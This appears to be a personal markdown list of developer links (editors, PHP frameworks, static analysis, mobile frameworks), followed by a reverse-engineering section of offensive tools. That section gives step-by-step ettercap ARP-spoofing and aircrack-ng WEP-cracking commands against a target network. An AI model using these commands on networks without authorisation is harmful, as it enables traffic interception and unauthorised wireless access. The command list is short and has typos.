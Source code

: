 # Links

awesome people:

- https://twitter.com/ajlkn is a skillful designer  
- https://github.com/spatie is a php agency producing high quality & widely used packages  
- https://codeblog.jonskeet.uk/ was an architect at c#
- https://www.joelonsoftware.com/ founded stackoverflow

tools:

- http://https//notepad-plus-plus.org/ as a fast editor for windows
- http://www.visualstudio.com/ as a C# IDE for windows
- http://www.jetbrains.com/ as an IDE for all platforms
- http://code.visualstudio.com/ as an editor for all platforms
- http://www.sublimetext.com/ as another editor

mobile frameworks:

- http://cordova.apache.org/
- http://ionicframework.com/

static analysis:

- http://fbinfer.com/
- https://flow.org/

basic tools:

- ninite.com
- easeus partition master
- windirstat
- speccy
- httptrack

username:

- https://knowem.com/checksocialnames.php
- https://checkusernames.com/
- https://iwantmyname.com/

visualizations:

- https://gource.io/ for git
- https://insights.stackoverflow.com for technologies

## php

resources:

- http://www.phptherightway.com/
- https://bulletproofphp.dev/yes-php-is-worth-using

frameworks:

- http://symfony.com/
- http://www.slimframework.com/
- http://laravel.com/
- http://cakephp.org/

## C#

compilers:

- https://www.xamarin.com/

## Frontend

- https://tympanus.net/codrops/

## reverse engineering

hashes:

- http://crackstation.net/

toolkits:

- http://www.exploit-db.com/
- https://www.kali.org/
- https://www.metasploit.com/

programs:

- Reflector & FileDissassembler (dissassemble .NET)
- IDA Pro
- netcut/tuxcut
- no-ip DUC
- cheatengine
- firesheep
- Cain & Abel
- SMAC 2.7
- colasoft mac scanner pro
- wireshark
- John the Ripper
- winpccap

ettercap:

- configure `etter.conf` (UID = 0, GID = 0, exclude iptables)
- `ettercap -T -Q -M arp:remote -i <wlandevice>`
- `urlsnarf -i <wlandevice>`

aircrack:

- `airmon-ng check kill` to finishes all processes that may interfer
- `airmon-ng start <wlandevice>` to generate new virtual monitordevice
- `airdoump-ng <monitordevice>` to dump all incoming packages
- `airodump-ng -w wep -c <channel> --bssid <macadress> <monitordevice>` to connect to the target network
- `aireplay-ng -3 -a <macadress> <monitordevice>` to generate additional traffic
- `aireplay-ng -1 0 -b <macadress> <monitormode>` to capture ARP packets and generate even more traffic
- `ls` to find name of the `.cap` file with the collected traffic
- `aircrack-ng <packetname>` to decrypt the key

pentesting:

- http://www.enigmagroup.org/
- https://www.hackthissite.org/
- http://www.happy-security.de/
